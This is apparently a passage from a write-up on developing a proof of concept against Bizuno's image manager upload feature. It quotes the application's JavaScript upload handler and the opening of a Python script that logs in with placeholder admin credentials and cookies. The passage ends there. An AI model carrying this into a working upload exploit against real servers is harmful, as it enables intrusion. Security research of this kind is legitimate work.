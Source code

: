 ```
        jq('#'+target).val(fullPath);
        jq('#img_'+target).attr('src',
bizunoAjaxFS+'&src=0/images/'+fullPath);
        bizWindowClose('winImgMgr');
    }
}
function imgRefresh() {
    var target = jq('#imgTarget').val();
    var path   = jq('#imgMgrPath').val();
    var search = jq('#imgSearch').val();
    var action = jq('#imgAction').val();
    var shref  =
'index.php?&p=bizuno/image/manager&imgTarget='+target+'&imgMgrPath='+path+'&imgSearch='+search+'&imgAction=';
    if (action == 'upload') {
        jq('#frmImgMgr').submit(function (e) {
            jq.ajax({
                url:        shref+'upload',
                type:       'post',
                data:       new FormData(this),
                mimeType:   'multipart/form-data',
                contentType:false,
                cache:      false,
                processData:false,
                success:    function (data) { processJson(data);
jq('#winImgMgr').window('refresh',shref+'refresh'); }
            });
            e.preventDefault();
        });
        jq('#frmImgMgr').submit();
    } else {
        jq('#winImgMgr').window('refresh', shref+action);
    }
}
jq('#winImgMgr').window({'title':'Image Manager: /'});
</script>
```

I then further extrapolated from the basic template, by providing sample cookies and POST parameters to add to the PoC,
with the final result returned below:

```
import requests

# Define the URL of the login page
LOGIN_URL = 'http://example.com/index.php?&p=bizuno/login/validate'

# Define the login credentials
LOGIN_CREDENTIALS = {
    'user_name': 'admin@admin',
    'user_pw': 'password',
}

# Define the cookies to be sent with the request
cookies = {
    'bizunoLang': 'en_US',
    'bizunoSession': 'examplesession123',
    'bizunoUser': 'admin@admin',
}

# Log in as the user 'admin@admin' with the password 'password'
response = requests.post(LOGIN_URL, data=LOGIN_CREDENTIALS, cookies=cookies)

```